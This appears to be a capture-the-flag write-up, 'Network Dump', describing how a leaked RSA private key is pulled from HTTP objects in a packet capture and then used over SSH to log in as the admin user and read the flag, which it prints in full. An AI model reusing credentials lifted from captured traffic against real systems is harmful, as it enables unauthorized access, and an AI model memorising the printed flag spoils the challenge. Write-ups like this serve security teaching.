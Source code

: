 # Network Dump
**_Web exploitation_** \
Difficulty: Medium

### 1. Log onto the server using ssh with the provided password
In the first step we simply want to look around.
```sh
[student@b6800923ac04 ~]$ ls
dump.pcapng
[student@b6800923ac04 ~]$ cd ..
[student@b6800923ac04 home]$ ls
admin   student
```
Obviously we don't have permission to access `admin` directory.. However, it's still a very useful information.

### 2. Open the provided .pcapng file with Wireshark

### 3. Export all the objects sent using the HTTP protocol\
File > Export Objects > HTTP... > Save All

### 4. Find the private RSA key in exported objects
This key is very clearly indicated by the following scheme:
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAuAsNBPiOFSUULoNlc5SnrY01H5Ma/ (...)
-----END RSA PRIVATE KEY-----
```
Now save this key as a seperate file.

### 5. Use that key to log into the server as `admin` user
```sh
chmiela@localhost:~> chmod 600 id_rsa
chmiela@localhost:~> ssh -i id_rsa -p 10495 admin@container-manager.francecentral.cloudapp.azure.com
[admin@b6800923ac04 ~]$ ls
FLAG
[admin@b6800923ac04 ~]$ cat FLAG
EE_CTF{TRZ3BA_BYLO_N13_ISC_NA_STUDIA_TYLKO_DO_UCZCIW3J_PRACY}
```

### 6. Result
Flag: `EE_CTF{TRZ3BA_BYLO_N13_ISC_NA_STUDIA_TYLKO_DO_UCZCIW3J_PRACY}`